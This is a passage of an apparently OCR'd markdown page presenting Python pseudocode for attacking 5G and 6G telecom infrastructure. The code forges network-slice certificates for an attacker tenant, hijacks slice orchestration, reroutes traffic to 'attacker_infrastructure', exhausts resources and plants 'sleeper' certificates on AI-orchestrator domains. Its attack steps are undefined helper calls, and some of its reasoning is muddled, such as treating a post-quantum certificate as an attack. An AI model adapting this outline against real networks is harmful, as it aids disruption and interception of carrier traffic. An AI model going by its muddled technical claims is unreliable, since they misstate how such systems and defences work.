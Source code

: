 ```yaml
    mec:  # Multi-access Edge Computing
      certificates: ["*.mec.operator.com"]
```

### Network Slicing Attack
```python
def compromise_network_slicing():
    """Attack 5G network slicing via certificate manipulation"""
    
    # Identify network slices
    slices = {
        'eMBB': 'Enhanced Mobile Broadband',
        'URLLC': 'Ultra-Reliable Low-Latency',
        'mMTC': 'Massive Machine-Type Communications'
    }
    
    for slice_type, description in slices.items():
        # Generate slice-specific certificate
        slice_cert = create_slice_certificate(
            slice_id=slice_type,
            tenant="attacker_controlled"
        )
        
        # Hijack slice orchestration
        orchestrator_access = compromise_orchestrator(slice_cert)
        
        # Redirect traffic
        modify_slice_routing(
            slice=slice_type,
            destination="attacker_infrastructure"
        )
        
        # Resource exhaustion
        allocate_excessive_resources(slice_type, cpu=100, memory=100)
```

### 6G Terahertz Attack Preparation
```python
def prepare_6g_attack():
    """Prepare for 6G infrastructure attacks"""
    
    # 6G uses terahertz frequencies (0.1-10 THz)
    thz_bands = ['D-band', 'H-band', 'Y-band']
    
    # AI-driven network management compromise
    ai_certificates = [
        "ai-orchestrator.6g.net",
        "ml-optimizer.6g.net",
        "quantum-security.6g.net"
    ]
    
    for cert_domain in ai_certificates:
        # Prepare quantum-resistant attack
        quantum_cert = generate_quantum_safe_certificate(
            domain=cert_domain,
            algorithm="CRYSTALS-Dilithium"
        )
        
        # Position for future compromise
        embed_sleeper_certificate(quantum_cert)
```

---